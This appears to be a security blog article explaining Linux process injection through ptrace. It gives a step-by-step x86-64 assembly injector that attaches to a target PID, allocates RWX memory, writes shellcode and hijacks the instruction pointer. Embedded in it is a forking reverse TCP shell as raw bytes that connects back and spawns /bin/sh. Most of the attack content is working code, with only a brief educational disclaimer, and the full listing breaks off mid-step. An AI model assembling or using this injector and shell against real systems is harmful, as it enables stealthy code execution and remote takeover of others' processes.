




<div class="article-header">
<h1>Process Injection via Ptrace</h1>
<span class="article-meta">01/02/2026 · 120 min</span>
</div>

Code injection into Linux processes using `ptrace`, implemented entirely in x86-64 assembly. No dependencies.

---

!!! warning "Responsible use"
    The content of this website is published **exclusively for educational and informational purposes**. The author **does not promote, endorse, or accept responsibility** for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out **only** in controlled environments, on systems you own, or **with explicit and verifiable authorization** from the system owner.

## Introduction

In this technique **a process (*tracer*) takes control of another running process (*tracee*) to inject and execute arbitrary code within its address space**. On Linux, the mechanism that makes this possible is the `ptrace` syscall. The same one used internally by debuggers such as GDB or tracing tools such as `strace`.

The general idea is straightforward: attach to the victim process, pause its execution, allocate executable memory within its address space, copy our shellcode into that memory and redirect execution to it.

The exploit consists of two components:

- **`proc_inj.asm`**: The injector program. Responsible for attaching to the victim process, allocating memory, copying the shellcode and redirecting execution.
- **`proc_inj_rev_tcp.asm`**: In this case, a modified reverse TCP shell that, after injection, creates a child process responsible for establishing the connection with the attacker, while the parent process resumes execution of the infected process.

## The `PTRACE` Syscall

All operations on the target process go through the `ptrace` syscall (no. 101 on x86-64). Although originally designed for implementing debuggers and diagnostic tools, its ability to completely manipulate a process's execution also makes it an attack vector.

At the kernel level, when a process attaches to another via `ptrace`, a special relationship is established between the two. The kernel marks the *tracee* with an internal flag (`PT_PTRACED`) indicating it is being traced. From that point on, certain execution points are mediated by the *tracer*. When the *tracee* reaches one of these points, instead of continuing normal execution the kernel stops it and places it in a controlled pause state (*ptrace-stop*), where it remains suspended until the *tracer* decides to resume it.

The *tracer* is notified of these stops through the `wait*` mechanism, which reuses Linux's standard process-wait system to indicate the reason for the stop. While the *tracee* is stopped, the *tracer* can inspect or modify its complete state (registers/memory) and decide how to continue execution.

### What does `PTRACE` allow?

The *tracer*'s capabilities over the *tracee* process are as follows:

- **Read and write memory**: Direct access to the *tracee*'s address space. Allows examining the code it is executing, inspecting variables on the *stack* or *heap* and writing data or instructions to any mapped address.
- **Read and write CPU registers**: Full access to all processor registers. This lets you see exactly where in execution the *tracee* is and manipulate the flow of control by modifying the instruction pointer and/or syscall arguments.
- **Control execution instruction by instruction**: With operations such as `PTRACE_SINGLESTEP`, the *tracer* can execute exactly one instruction of the *tracee* and stop it again, allowing observation of the changes each individual instruction produces.
- **Intercept syscalls**: The *tracer* can be notified each time the *tracee* enters or exits a syscall, allowing inspection or modification of arguments and return values. This is the basis of tools such as `strace`.
- **Intercept signals**: The *tracer* receives signals directed at the *tracee* before the *tracee* processes them, and can suppress, modify or inject new signals.

### Input Arguments

```text
rax = 101        ; syscall number (__NR_ptrace)
rdi = request    ; operation (PTRACE_*)
rsi = pid        ; PID of the target process
rdx = addr       ; address (pointer)
r10 = data       ; data/address (pointer)
```

The `ptrace` operations used are:

| Operation | Value | Description |
| --- | --- | --- |
| `PTRACE_ATTACH` | 16 | The *tracer* attaches to the process with the PID specified in `pid`. The kernel sends `SIGSTOP` to the *tracee*. `wait4` must be called to wait for the effective stop. |
| `PTRACE_PEEKDATA` | 2 | Reads 8 bytes from the *tracee*'s memory at address `addr`. The read value is stored at the address pointed to by `data`. |
| `PTRACE_POKEDATA` | 5 | Writes the value of `data` (8 bytes) into the *tracee*'s memory at address `addr`. |
| `PTRACE_SINGLESTEP` | 9 | Resumes execution of the *tracee* but stops it again after executing a single instruction. Requires `wait4` afterward to synchronize. |
| `PTRACE_GETREGS` | 12 | Copies all CPU registers of the *tracee* into a buffer provided by the *tracer* (via `data`), following the layout of `user_regs_struct`. |
| `PTRACE_SETREGS` | 13 | Sets all CPU registers of the *tracee* from a buffer provided by the *tracer* (via `data`). |
| `PTRACE_DETACH` | 17 | The *tracer* detaches from the *tracee*, removing the `PT_PTRACED` flag. The former *tracee* resumes execution. |

### `user_regs_struct` Structure

When using `PTRACE_GETREGS` or `PTRACE_SETREGS`, you work with a structure of **27 fields of 8 bytes each** (216 bytes total) **that contains all CPU registers**. The field order and their offsets are critical for manipulating specific registers:

<div class="tables-centered" markdown>

| Offset | Register |
| --- | --- |
| `0x00` | `R15` |
| `0x08` | `R14` |
| `0x10` | `R13` |
| `0x18` | `R12` |
| `0x20` | `RBP` |
| `0x28` | `RBX` |
| `0x30` | `R11` |
| `0x38` | `R10` |
| `0x40` | `R9` |
| `0x48` | `R8` |
| `0x50` | `RAX` |
| `0x58` | `RCX` |
| `0x60` | `RDX` |
| `0x68` | `RSI` |

| Offset | Register |
| --- | --- |
| `0x70` | `RDI` |
| `0x78` | `ORIG_RAX` |
| `0x80` | `RIP` |
| `0x88` | `CS` |
| `0x90` | `EFLAGS` |
| `0x98` | `RSP` |
| `0xA0` | `SS` |
| `0xA8` | `FS_BASE` |
| `0xB0` | `GS_BASE` |
| `0xB8` | `DS` |
| `0xC0` | `ES` |
| `0xC8` | `FS` |
| `0xD0` | `GS` |

</div>

## Step-by-Step Injector Walkthrough

### Data Section

**The injector's `.data` section contains the shellcode.** This shellcode is the compiled version of `proc_inj_rev_tcp.asm` (explained later in this article), but it could be any shellcode the attacker chooses.

The `.bss` section reserves three buffers of 216 bytes each (27 registers × 8 bytes):

- **`regs`**: Working buffer where the *tracee*'s registers are loaded and modified.
- **`regs_ori`**: Backup copy of the *tracee*'s original registers.
- **`regs_sys`**: Auxiliary buffer to capture the return value of the `mmap` syscall executed in the *tracee*.

### Attach and Stop the Process

The PID of the target process is stored in a register beforehand.

```nasm
; 1 Attach and stop the process

    ; PTRACE_ATTACH
    mov rax, 101
    mov rdi, 16          ; PTRACE_ATTACH (0x10)
    mov rsi, r15         ; PID
    xor rdx,rdx          ; addr
    xor r10, r10         ; data
    syscall

    ; WAIT4: 
        ; When PTRACE_ATTACH is called, the kernel sends SIGSTOP to the target process.
        ; wait4 must be called to block the tracer until the tracee
        ; is effectively stopped before it can be manipulated.

        mov rax, 61
        mov rdi, r15            ; PID to wait for (-1 for any child)
        sub rsp, 8
        mov rsi, rsp            ; &status
        xor rdx, rdx            ; options
        xor r10, r10            ; rusage
        syscall
```

The first step is **attaching to the victim process** using `PTRACE_ATTACH` (operation 16).

When the kernel receives this request, it sends a `SIGSTOP` signal to the *tracee* process, which causes it to stop. However, this stop is not instantaneous. The process needs time to process the signal and stop effectively. That is why it is essential to call `wait4` (syscall number 61) immediately afterward. This call blocks the *tracer* until the *tracee* is completely stopped and ready to be manipulated.

> Without executing the `wait4` syscall, any subsequent operation on the *tracee* could fail or produce unpredictable results because the process would not yet be properly stopped.
> 

### Saving the Execution Context

```nasm
; 2 Save the execution context

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs] ; pointer to the buffer where the register structure will be stored
    syscall

    ; Copy the tracee's original registers to the backup buffer
    lea rsi, [rel regs]       ; RSI used as source pointer, advances
    lea rdi, [rel regs_ori]   ; RDI used as destination pointer, advances

    mov rcx, 27               ; RCX used as counter, decrements to 0
    cld                       ; DF=0 (ascending copy direction)
    rep movsq                 ; move RCX qwords: [RSI] -> [RDI]

                    ; movsq copies one qword (8 bytes) from the address pointed to by RSI to the address pointed to by RDI
                    ; rep repeats that operation RCX times
```

With `PTRACE_GETREGS` (operation 12) **we obtain a complete snapshot of all CPU registers of the *tracee* process at the moment of its stop.** This information is stored in a buffer following the `user_regs_struct` layout.

A backup copy of this structure is then made to another buffer. This backup is important because during the injection process we are going to modify the *tracee*'s registers to execute a syscall in its context. Without this copy we could not restore the process's original state after the injection.

### Injecting the Syscall Instruction

```nasm
; 3 Inject the syscall instruction (0x0f 0x05)

    mov r12, [regs+0x80]   ; RIP value of the tracee process (address of the next instruction to execute)

    ; PTRACE_PEEKDATA (read memory) — read 8 bytes from the address currently pointed to by the tracee's RIP
    mov rax, 101
    mov rdi, 2       ; PTRACE_PEEKDATA
    mov rsi, r15     ; PID
    mov rdx, r12     ; addr
    sub rsp, 8       ; 8 bytes
    mov r10, rsp     ; pointer to data (address where the read info will be stored)
    syscall 

    mov r11, [rsp] ; r11 and the top of the stack contain the value pointed to by the tracee's RIP
    mov r13, r11 ; backup of the original value
    and r11, 0xFFFFFFFFFFFF0000 ; clear the lower 2 bytes
    or r11, 0x000000000000050F  ; insert syscall (0x0f 0x05 in little-endian)

    ; PTRACE_POKEDATA (write to memory)
    mov rax, 101
    mov rdi, 5     ; PTRACE_POKEDATA
    mov rsi, r15   ; PID
    mov rdx, r12   ; addr 
    mov r10, r11   ; 8-byte value to write
    syscall
```

This is where the interesting part begins. The first goal is **to make the *tracee* process execute a specific syscall**, specifically `mmap`, to allocate executable memory in the process's heap. This will be the space our shellcode occupies. To do this, we need the **address pointed to by the *tracee*'s `RIP` to contain a `syscall` instruction (opcode `0x0F 0x05`).**

The process is as follows:

1. Extract the current address pointed to by the *tracee*'s `RIP` register from the register buffer (`regs+0x80`). This is the address of the next instruction the *tracee* was about to execute before being stopped.
2. With `PTRACE_PEEKDATA` (operation 2), read the 8 bytes at that memory address of the *tracee*. These bytes are instructions the *tracee* was about to execute.
3. Save a copy of the original value (we will need it later to restore it). Then modify only the two least significant bytes of the read value, replacing them with `0x0F 0x05` (the opcode of the `syscall` instruction on x86-64). The mask `AND 0xFFFFFFFFFFFF0000` clears the lower 2 bytes and `OR 0x050F` inserts the opcode in little-endian.
4. With `PTRACE_POKEDATA` (operation 5), write the modified value back into the *tracee*'s memory, temporarily overwriting the original instructions with a `syscall` instruction.

### Configuring Registers for `MMAP`

```nasm
; 4 Configure registers for MMAP

    ; MMAP

        mov qword [regs+0x50], 9       ; (RAX) replace the full register value   syscall number for mmap
        mov qword [regs+0x70],0        ; (RDI)       rdi = addr = 0 (NULL) → ask the kernel to choose the address
        mov qword [regs+0x68],4096     ; (RSI)       rsi = length = 4096 bytes (1 typical page)
        mov qword [regs+0x60],7        ; (RDX)       rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
        mov qword [regs+0x38],34       ; (R10)       r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
        mov qword [regs+0x48],-1       ; (R8)        r8 = fd = -1 (used with MAP_ANONYMOUS; -1 means "no file")
        mov qword [regs+0x40],0        ; (R9)        r9 = offset = 0 (offset in the fd; irrelevant with ANONYMOUS)
    
    ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs] ; pointer to the buffer holding the register structure
        syscall
```

Now that we have a `syscall` instruction ready at the *tracee*'s execution point, we need to **configure its registers** so that this syscall executes exactly what we want. A **call to `mmap` that allocates a page of memory with read, write and execute (RWX) permissions**.

The registers are modified directly in our buffer using the corresponding offsets and the changes are then applied to the *tracee* with `PTRACE_SETREGS`:

```text
rax = 9          ; syscall number (mmap)
rdi = addr       ; suggested address (0 = kernel chooses)
rsi = length     ; mapping size in bytes
rdx = prot       ; protections: PROT_READ|PROT_WRITE|PROT_EXEC...
r10 = flags      ; MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED...
r8  = fd         ; descriptor (if MAP_ANONYMOUS, typically -1)
r9  = offset     ; offset in the file (in bytes, multiple of page size)
```

The `MAP_PRIVATE | MAP_ANONYMOUS` combination tells the kernel to create a private memory region not backed by any file on disk. **RWX** **permissions** are needed because we are going to **write** the shellcode into this region and then **execute** it.

### Controlled Execution of the `MMAP` Syscall

```nasm
; 5 Controlled execution of the MMAP syscall

    ;PTRACE_SINGLESTEP
    mov rax, 101
    mov rdi, 9       ; PTRACE_SINGLESTEP
    mov rsi, r15     ; PID
    xor rdx, rdx     ; addr
    xor r10, r10     ; data
    syscall

    ; WAIT4: 
    mov rax, 61
    mov rdi, r15            ; PID to wait for (-1 for any child)
    sub rsp, 8
    mov rsi, rsp            ; &status
    xor rdx, rdx            ; options
    xor r10, r10            ; rusage
    syscall

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs_sys] ; pointer to the buffer where the register structure will be stored
    syscall
    
  ; 6 Retrieve the result of the MMAP syscall
    xor r12, r12 
    mov r12, [regs_sys+0x50]       ; (RAX) base address of the memory region allocated with RWX permissions
```

With the *tracee*'s registers configured and the `syscall` instruction in place, we use `PTRACE_SINGLESTEP` (operation 9) to execute exactly one instruction in the *tracee*'s context. That instruction is the `syscall` we injected in step 3, which with the registers modified in step 4 will execute `mmap`.

Afterward, we use `PTRACE_GETREGS` to obtain the register state following syscall execution. The return value of `mmap` will be stored in the *tracee*'s `RAX` register. This value is the **base address of the new RWX memory region** the kernel has assigned within the target process's address space.

> The reason for using a separate buffer is simple: `regs` was already modified in step 4 (the registers for `mmap`) and `regs_ori` contains the original registers that we need to keep intact. `regs_sys` allows us to capture the `mmap` result without contaminating either of the other two.
> 

### Restoring the Content at the Address Pointed to by `RIP`

```nasm
; 7 Restore the content at the address pointed to by the tracee's RIP register

        xor r14, r14
        mov r14, [regs_ori+0x80]

        ; PTRACE_POKEDATA (write to memory)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r14   ; addr 
        mov r10, r13   ; 8-byte value to write
        syscall
```

In step 3, we overwrote the original bytes at the address pointed to by `RIP`. Now that we have executed `mmap`, it is time to **restore those original bytes to leave no trace of our manipulation**.

The original `RIP` address is obtained from `regs_ori+0x80` and `PTRACE_POKEDATA` is used to write the original value back. After this operation, the *tracee*'s memory at that point contains exactly the same instructions it had before our intervention.

### Restoring the Original Registers

```nasm
; 8 Restore the tracee process's original registers

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; pointer to the buffer holding the register structure
        syscall
```

With `PTRACE_SETREGS`, **all the *tracee*'s registers are restored to their original state** using the `regs_ori` backup. This returns the *tracee* to exactly the same state it was in when we stopped it.

This is important because in the subsequent steps we are going to selectively modify only the `RIP` register (to redirect execution to the shellcode) and `orig_rax` (to prevent syscall restart).

### Storing the Return `RIP`

```nasm
; 9 Store the return RIP in the last 8 bytes of the memory region allocated by MMAP

        ; PTRACE_POKEDATA (write to memory)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        lea rdx, [r12+4088]   ; addr 
        mov r10, r14   ; 8-byte value to write
        syscall
```

This step is key to making the injection transparent. The *tracee* process must be able to resume its execution after the shellcode has done its work.

The memory region allocated by `mmap` is 4096 bytes (as specified in the input arguments). **The shellcode will be written from the start of this region, but the last 8 bytes (`offset+4088`) are reserved to store the return address (the original value of the *tracee*'s `RIP` register).**

When the shellcode executes in the *tracee*'s context, it will `fork` (creating a child process duplicating the current process). The child will execute the reverse shell, but the parent needs to know where to return. The parent will read this address from `[_start + 4088]` (which equals `mmap_base + 4088`) and jump to it, resuming execution exactly where it had stopped.

```text
RWX region (4096 bytes):
┌──────────────────────────────────────────────────┬──────────┐
│              Shellcode (bytes 0..4087)           │ RIP ret  │
│                                                  │ (8 bytes)│
│  _start → fork, setsid, socket, connect...       │ 4088-4095│
└──────────────────────────────────────────────────┴──────────┘
                                                    ▲
                                                    │
                                        Parent reads this
                                        address and jumps
```

### Injecting the Shellcode

```nasm
; 10 Inject the shellcode into the allocated memory region (PTRACE_POKEDATA writes 8 bytes)

    xor r13,r13
    lea r13, [rel shellcode]   ; pointer to the shellcode
    xor r14, r14
    mov r14, sc_len / 8        ; counter of words to write
    push r12

    .loop_inj:

        cmp r14, 0     ; compare the word counter with 0
        jz .done       ; if counter == 0, jump to .done

        ; PTRACE_POKEDATA
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r12   ; addr 
        mov r10, [r13] ; 8-byte value to write
        syscall

        add r12, 8
        add r13, 8
        dec r14
        jmp .loop_inj
```

Now **the complete shellcode is copied into the allocated memory region**. Since `PTRACE_POKEDATA` writes **exactly 8 bytes per call**, we must iterate `sc_len / 8` times (shellcode length divided by 8).

In each iteration:

- `r13` points to the current position within the shellcode (in the *tracer*'s space).
- `r12` points to the current position within the `mmap`-generated region (in the *tracee*'s space).
- 8 bytes are read from `[r13]` and written to `[r12]` of the *tracee*.
- Both pointers advance 8 bytes and the `r14` counter is decremented.

> The shellcode is aligned to 8 bytes (`0x90` (NOP) bytes are appended at the end if necessary) so that the last `PTRACE_POKEDATA` write does not go out of the shellcode's bounds.
> 

### Redirect Execution to the Shellcode Start and Detach

```nasm
; 11 Redirect execution to the start of the shellcode

.done

        pop r12

        mov qword [regs_ori+0x80], r12   ; RIP == address of the start of the allocated memory == shellcode start
        mov qword [regs_ori+0x78], -1    ; orig_rax = -1 (prevent syscall restart)

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; pointer to the buffer holding the register structure
        syscall

; 12 Detach from the tracee

    ; PTRACE_DETACH
    mov rax, 101
    mov rdi, 17    ; PTRACE_DETACH
    mov rsi, r15   ; PID
    xor rdx, rdx   ; addr
    xor r10, r10   ; signal = 0 (send no signal)
    syscall

    ; EXIT
    mov rax, 60
    xor rdi,rdi 
    syscall
```

With the shellcode in place, the final modifications are made before releasing the *tracee*.

The `RIP` field in the register structure is modified to point to the start of the region defined by `mmap`, which is where the previously injected shellcode begins. When the *tracee* resumes execution, it will do so from the first instruction of the shellcode.

The `orig_rax` field controls the kernel's syscall restart mechanism. If the *tracee* was stopped during an interrupted syscall, the kernel might try to re-execute it automatically on resume. Setting `orig_rax = -1` tells the kernel that there is no pending syscall restart, avoiding unexpected behavior.

The modified registers are applied with `PTRACE_SETREGS`.

The *tracee* is released with `PTRACE_DETACH` (operation 17). This **resumes execution of the process, which will now begin executing the injected shellcode**.

## The Shellcode: Reverse TCP Shell

The injected shellcode (`proc_inj_rev_tcp.asm`) is not a conventional reverse shell. It is specifically designed for the process injection context, with two key characteristics:

- **`fork`**: Creates a child process that executes the reverse shell, while the parent process resumes the *tracee*'s execution.
- **`setsid`**: The child process creates a new session, detaching from the terminal and process group of the parent.

### Parent Process Flow

```nasm
; FORK
    mov rax, 57
    syscall

    cmp rax, 0           ; if rax==0 it is the child
    jz .child            

    lea r11, [rel _start] ; r11 = address of _start = mmap_base = initial RIP of the shellcode

    ; Parent process
    mov r14, [r11+4088] ; obtain return address
    jmp r14             ; jump to the return address, overwriting the RIP register
```

After the `fork`, **the parent process needs to return to the exact point where it was interrupted**. To do this, it obtains the base address of the shellcode in memory (which coincides with the start of the region defined after `mmap`). Adding 4088 gives the position where the injector stored the original return address (step 9). Finally, a `jmp` instruction transfers execution to that address, resuming as if nothing had happened.

> `r11` is used intentionally because it is a *clobbered register*. Using `r11` therefore ensures that no functional register of the *tracee* process is modified in a way that could affect its future execution.
> 

### Child Process Flow

```nasm
.child

    ; SETSID
    mov rax, 112
    syscall

    ; SOCKET → CONNECT → DUP2 → EXECVE
```

The child process invokes the `setsid` syscall (syscall number 112) to create a new session. This **detaches it from the controlling terminal and process group of the parent**, making the reverse shell independent of the original process.

After this, the standard reverse TCP shell sequence is executed, explained in the Reverse TCP Shell article.

## Full Code

### `proc_inj.asm` (Injector)

```nasm
section .data
shellcode:
    db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
    db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
    db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
    db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
    db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
    db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
    db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
    db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
    db 0x51, 0x49, 0xba, 0x02, 0x00, 0x11, 0x5c, 0x7f
    db 0x00, 0x00, 0x01, 0x41, 0x52, 0x48, 0x89, 0xe6
    db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
    db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
    db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
    db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
    db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
    db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
    db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
    db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
    db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
    
section .bss
    regs resq 27  ; sizeof(user_regs_struct) on x86_64  (27x8 bytes)
    regs_ori resq 27
    regs_sys resq 27 

section .text
global _start
_start:

    ; PID
    mov r15, 2120

; 1 Attach and stop the process:

    ; PTRACE_ATTACH
    mov rax, 101
    mov rdi, 16          ; PTRACE_ATTACH (0x10)
    mov rsi, r15         ; PID
    xor rdx,rdx          ; addr
    xor r10, r10         ; data
    syscall

    ; WAIT4: 
        ; When PTRACE_ATTACH is called, the kernel sends SIGSTOP to the target process.
        ; wait4 must be called to block the tracer until the tracee
        ; is effectively stopped before it can be manipulated.

        mov rax, 61
        mov rdi, r15            ; PID to wait for (-1 for any child)
        sub rsp, 8
        mov rsi, rsp            ; &status
        xor rdx, rdx            ; options
        xor r10, r10            ; rusage
        syscall

; -----------------------------------------

; 2 Save the execution context

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs] ; pointer to the buffer where the register structure will be stored
    syscall
    
    ; At this point, regs contains:
    ; 0x00  r15
    ; 0x08  r14
    ; 0x10  r13
    ; 0x18  r12
    ; 0x20  rbp
    ; 0x28  rbx
    ; 0x30  r11
    ; 0x38  r10
    ; 0x40  r9
    ; 0x48  r8
    ; 0x50  rax
    ; 0x58  rcx
    ; 0x60  rdx
    ; 0x68  rsi
    ; 0x70  rdi
    ; 0x78  orig_rax
    ; 0x80  rip
    ; 0x88  cs
    ; 0x90  eflags
    ; 0x98  rsp
    ; 0xA0  ss
    ; 0xA8  fs_base
    ; 0xB0  gs_base
    ; 0xB8  ds
    ; 0xC0  es
    ; 0xC8  fs
    ; 0xD0  gs

    ; Copy the tracee's original registers to the backup buffer
    lea rsi, [rel regs]       ; RSI used as source pointer, advances
    lea rdi, [rel regs_ori]   ; RDI used as destination pointer, advances

    mov rcx, 27               ; RCX used as counter, decrements to 0
    cld                       ; DF=0 (ascending copy direction)
    rep movsq                 ; move RCX qwords: [RSI] -> [RDI]

                    ; movsq copies one qword (8 bytes) from the address pointed to by RSI to the address pointed to by RDI
                    ; rep repeats that operation RCX times

; -----------------------------------------

; 3 Inject the syscall instruction (0x0f 0x05)

    mov r12, [regs+0x80]   ; RIP value of the tracee process (address of the next instruction to execute)

    ; PTRACE_PEEKDATA (read memory) — read 8 bytes from the address currently pointed to by the tracee's RIP
    mov rax, 101
    mov rdi, 2       ; PTRACE_PEEKDATA
    mov rsi, r15     ; PID
    mov rdx, r12     ; addr
    sub rsp, 8       ; 8 bytes
    mov r10, rsp     ; pointer to data (address where the read info will be stored)
    syscall 

    mov r11, [rsp] ; r11 and the top of the stack contain the value pointed to by the tracee's RIP
    mov r13, r11 ; backup of the original value
    and r11, 0xFFFFFFFFFFFF0000 ; clear the lower 2 bytes
    or r11, 0x000000000000050F  ; insert syscall (0x0f 0x05 in little-endian)

    ; PTRACE_POKEDATA (write to memory)
    mov rax, 101
    mov rdi, 5     ; PTRACE_POKEDATA
    mov rsi, r15   ; PID
    mov rdx, r12   ; addr 
    mov r10, r11   ; 8-byte value to write
    syscall

;Value in register/hex: 0x00007ffe6f9001b0

;Breakdown:
;  0x 00 00 7f fe 6f 90 01 b0
;     ▲                    ▲
;     │                    │
;    MSB                 LSB
;   (most significant) (least significant)

;In memory (little-endian, LSB first):

;RIP → 0x7f7a85496687:  ┌────┐
;                       │ b0 │ ← First byte, first instruction
;      0x7f7a85496688:  ├────┤
;                       │ 01 │
;      0x7f7a85496689:  ├────┤
;                       │ 90 │
;      0x7f7a8549668a:  ├────┤
;                       │ 6f │
;      0x7f7a8549668b:  ├────┤
;                       │ fe │
;      0x7f7a8549668c:  ├────┤
;                       │ 7f │
;      0x7f7a8549668d:  ├────┤
;                       │ 00 │
;      0x7f7a8549668e:  ├────┤
;                       │ 00 │
;                       └────┘

; -----------------------------------------

; 4 Configure registers for MMAP

    ; MMAP

        mov qword [regs+0x50], 9       ; (RAX) replace the full register value   syscall number for mmap
        mov qword [regs+0x70],0        ; (RDI)       rdi = addr = 0 (NULL) → ask the kernel to choose the address
        mov qword [regs+0x68],4096     ; (RSI)       rsi = length = 4096 bytes (1 typical page)
        mov qword [regs+0x60],7        ; (RDX)       rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
        mov qword [regs+0x38],34       ; (R10)       r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
        mov qword [regs+0x48],-1       ; (R8)        r8 = fd = -1 (used with MAP_ANONYMOUS; -1 means "no file")
        mov qword [regs+0x40],0        ; (R9)        r9 = offset = 0 (offset in the fd; irrelevant with ANONYMOUS)
    
    ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs] ; pointer to the buffer holding the register structure
